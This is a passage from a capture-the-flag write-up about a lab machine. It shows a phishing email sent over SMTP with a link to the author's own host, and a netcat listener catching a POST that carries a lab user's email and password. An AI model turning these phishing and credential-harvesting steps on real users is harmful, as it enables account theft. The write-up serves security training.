      -> please click here http://10.10.14.42/
     -> 
     -> 
     -> .
    <-  250 2.0.0 Ok: queued as 5143C24808
     -> QUIT
    <-  221 2.0.0 Bye
    === Connection closed with remote host.



The body of my email is a link to myself. I'll have Python's
`http.server` module listening. Strangely, a POST request comes back:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.197 - - [12/Jul/2020 10:51:01] code 501, message Unsupported method ('POST')
    10.10.10.197 - - [12/Jul/2020 10:51:01] "POST / HTTP/1.1" 501 -



I stopped that and opened `nc` on port 80 to catch the request, and sent
the phish again:



    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:58924.
    POST / HTTP/1.1
    Host: 10.10.14.42
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded

    firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt



It is posting creds for paulbyrd@sneakymailer.htb.

### IMAP Access

I'll show both the manual way to access IMAP with `nc` as well as using
a mail client.

#### Manual

With creds for Paul, I can check his email. I can interact with IMAP
manually with `nc` on port 143 (or if I want to use the TLS version on
port 993, I can use `ncat` (which is `nc` is aliased to on my machine)
with the `--ssl` option). I showed this similar process in
[Chaos](/htb-chaos.md#imap).
